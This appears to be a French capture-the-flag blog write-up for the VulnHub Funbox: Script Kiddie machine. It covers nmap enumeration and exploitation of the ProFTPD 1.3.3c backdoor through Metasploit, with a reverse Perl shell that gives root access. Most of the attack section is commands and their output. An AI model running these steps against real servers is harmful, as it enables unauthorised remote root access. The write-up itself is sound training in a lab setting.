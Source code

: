 ```yaml
---
title: "CTF Funbox: Script Kiddie"
date: 2021-08-15
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/funbox-scriptkiddie,725
parts: 
  - title: 'CTF Funbox: Easy'
    href: 'ctf-funbox-easy'
  - title: 'CTF Funbox: Script Kiddie'
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.2** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.17`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir FunboxScriptKiddie && cd FunboxScriptKiddie`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -sV -sT -p- $IP -oN nmap.txt
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.3c
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp        Postfix smtpd
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

On a une liste de 8 serveurs :

- **21** un serveur **FTP** ;
- **22** un serveur **SSH** ;
- **25** un serveur **SMTP** ;
- **80** un serveur **Apache** 2.4.18 ;
- **110** un serveur **POP3** ;
- **139** et **445** un serveur **Samba** ;
- **143** un serveur **IMAP**.

On check le serveur **FTP**.

```bash
$ ftp $IP
Connected to 192.168.1.17.
220 ProFTPD 1.3.3c Server (ProFTPD Default Installation) [192.168.1.17]
Name (192.168.1.17:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```

Sans grand succès, par contre lorsque l'on regarde sur **searchsploit** pour **ProFTPD 1.3.3c**, on a un résultat exploitable avec **Metasploit**.

```bash
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution | linux/remote/15662.txt
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit) | linux/remote/16921.rb
```

## Pénétration

On lance donc ce dernier via la commande **msfconsole**.

```bash
$ msfconsole
msf6 > search ProFTPd-1.3.3c
#  Name                                    Disclosure Date  Rank       Check  Description
-  ----                                    ---------------  ----       -----  -----------
0  exploit/unix/ftp/proftpd_133c_backdoor  2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

On retrouve bien l'exploit que l'on veut utiliser.

```bash
msf6 > use 0
```

Avant de poursuivre, on regarde les options disponibles.

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options
Name    Current Setting  Required  Description
----    ---------------  --------  -----------
RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT   21               yes       The target port (TCP)
```

On commence par renseigner l'IP de la machine distante dans la variable "RHOST".

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOST 192.168.1.17
RHOST => 192.168.1.17
```

Puis on consulte la liste des payloads disponibles.

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
#  Name                                        Disclosure Date  Rank    Check  Description
-  ----                                        ---------------  ----    -----  -----------
0  payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
1  payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
2  payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
3  payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
4  payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
5  payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
6  payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
7  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)
```

On choisit le reverse en PERL dans la variable "payload".

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload 5
payload => cmd/unix/reverse_perl
```

Et on n'oublie pas de renseigner l'IP la machine locale dans la variable "LHOST".

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.1.33
LHOST => 192.168.1.33
```

Nos 3 valeurs renseignées, on peut exécuter l'exploit.

```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
[*] Started reverse TCP handler on 192.168.1.33:4444 
[*] 192.168.1.17:21 - Sending Backdoor Command
[*] Command shell session 1 opened (192.168.1.33:4444 -> 192.168.1.17:44782) at 2021-08-15 10:58:28 +0200
```

L'exploit fonctionne car on est connecté sur le serveur **FTP**.

```bash
$ id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```

On est directement utilisateur **root**. On lance un **shell** pour mieux naviguer sur la machine distante.

```bash
$ shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
```

On trouve l'unique flag dans le répertoire de l'utilisateur **root**.

```bash
$ cat /root/root.txt
Please, tweet this to: @0815R2d2
Thank you...
```
